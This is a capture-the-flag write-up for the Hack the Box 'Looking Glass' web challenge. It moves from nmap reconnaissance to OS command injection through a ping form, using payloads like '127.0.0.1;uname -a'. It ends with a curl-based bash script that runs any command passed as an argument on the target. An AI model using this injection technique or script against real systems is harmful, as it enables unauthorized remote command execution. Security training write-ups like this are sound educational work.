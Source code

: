 # Looking Glass write-up by Herman Detwiler

## Overview

Looking glass is an easy box on Hack the Box, and can be found on the OWASP top 10 track. We are given the following description: 

*We've built the most secure networking tool in the market, come and check it out!*

The first step is going to be to gather as much information about the target as possible.

## Recon

Given that we are given a docker address to looking glass: 161.35.47.235:30278 first I will run an nmap scan of the target to attempt and enumerate service and underlying OS information about the target. To do this I use the following nmap command to enumerate serverice version, run basic nse scripts, and to attempt OS detection:

```bash
sudo nmap -sC -sV -O 161.35.47.235 -p 30278
```

However initially the host seems down because the host is blocking ping attempts. To counter this we can add the -Pn flag to our nmap command.

```bash
└─$ sudo nmap -sC -sV 161.35.47.235 -p 30278 -Pn -O
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 10:57 EDT
Nmap scan report for 161.35.47.235
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
30278/tcp open  http    nginx
|_http-title: rce
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), HP P2000 G3 NAS device (92%), ASUS RT-N56U WAP (Linux 3.4) (91%), Linux 3.16 (91%), Linux 2.6.32 (91%), Linux 2.6.39 - 3.2 (91%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (91%), Linux 3.1 - 3.2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 10 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.28 seconds
```
Based on these findings, I can be fairly certain that this is a linux box, running an nginx web server. My next step is to further enumerate this service using various commands to try and see if I can get an idea of the functionality of this web server.

## Enumeration

Using my web browser to manually view the webapp I can see that it is desiegned to perform two different network tests, traceroute and ping. It also displays my actual ip address, which has been redacted on the screenshots.

![image](https://user-images.githubusercontent.com/83407557/161574988-faf3c1c6-6625-47cf-ad47-70933d97f7e2.png)

After manually messing around with functionality I can determine that the webapp is not connected to the internet, as any attempt to ping myself or any other internet facing ip address is met with 100% packet loss:

Just as example trying to ping example.com:

1. Getting ipv4 address of example.com from kali

![image](https://user-images.githubusercontent.com/83407557/161576640-71832a69-3d2b-433a-8a6f-9b9861a832c4.png)

2. Pinging that ipv4 from kali (to show what a box that is connected looks like)

![image](https://user-images.githubusercontent.com/83407557/161576870-f0d9be61-1f61-47ca-9559-4f86f2d11160.png)

3. Doing the same from looking glass to verify 100% packet loss

![image](https://user-images.githubusercontent.com/83407557/161577155-cc56b1ba-a248-4590-b651-ded46cbdbd26.png)

## Building an exploit

Seeing as that the server seems to be running system commands, I need to see if I can break out of the intended ping or traceroute commands and run my own.

### POC

Again using kali to show what I am attempting to do, I need to write a one liner that will both ping and then also run another command. I will us the uname command in linux to try and identify the underlying OS. When run by itself it looks like this:


![image](https://user-images.githubusercontent.com/83407557/161585460-b734416a-3681-4622-9c93-08943276940b.png)

I can also tell that the server is not just running ping by itself, as it always returns four packets. So even though it just says "ping" the actual command is going to be closer to "ping -c4 -w3" so that is what I am going to use locally to get the output as close to the server's as I can. To make bash run another command after the first I can use a semicolon ";". With this in-mind the entire command to ping 8.8.8.8 four times and then run the uname command on kali:

```bash
ping -c4 -w3 8.8.8.8;uname
```
![image](https://user-images.githubusercontent.com/83407557/161586497-8b21c91b-7ee8-4b8a-99b1-678d2e982dcf.png)

As you can see after running the ping command, at the very end of the output it also says "Linux". Now I can see if I can get the same output on looking glass, by adding a semicolon and the uname command to the ip address just as above:

```
8.8.8.8;uname
```

![image](https://user-images.githubusercontent.com/83407557/161587002-cc215b51-2688-4759-91e6-178e85fb4a2e.png)

Even though the ping command returned 100% packet loss, it can be seen the that uname command returned as well. However before I build this into a working exploit, I want to make it a little faster. Each time looking glass trys to ping it takes serveral seconds, which will add up if I am trying to run commands. To counter this, I will try my next manual command against localhost(127.0.0.1) to see if it speeds up the ping command. I want to get all of the OS info using the uname -a command. Using the same method as before:

```
127.0.0.1;uname -a
```

![image](https://user-images.githubusercontent.com/83407557/161587809-785d43cd-71f2-429c-a370-4bd454fe6a1b.png)

and Bingo! was able to get it to work marginally faster and also now know the kernel info. With this I can build my actual exploit.

### Making a bash script

Taking a look at the post request that was sent to the server to perform the ping command, I can copy this as a curl request to begin building a bash script for myself. I will call this initial script tinker.sh.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'

```
Running tinker.sh I can see that I get the same output as I did with my POC:

![image](https://user-images.githubusercontent.com/83407557/161610497-96c04432-637a-447a-bf73-51f6edeb1593.png)

Now I need to modify tinker.sh to make my acutal exploit script, where I can give commands as arguments and get the output in the response. To do this I will change the line

```
--data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'
```

to 

```
--data-raw "test=ping&ip_address=127.0.0.1%3Bu$1&submit=Test"
```
to make it so instead of the uname command it will run the first argument I pass to my bash script.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw "test=ping&ip_address=127.0.0.1%3B$1&submit=Test"
```

Now I can run any number of commands, right from my command line:

whoami command

![image](https://user-images.githubusercontent.com/83407557/161611409-c8643e1e-64e3-46d3-879e-6f4ec51c84fb.png)

hostname command:

![image](https://user-images.githubusercontent.com/83407557/161611487-9d5c76d1-8d84-4f36-b8c4-f343f36e64ab.png)
![image](https://user-images.githubusercontent.com/83407557/161611582-3fcec2f5-3a51-4a46-b98a-c0b34e7f06d3.png)

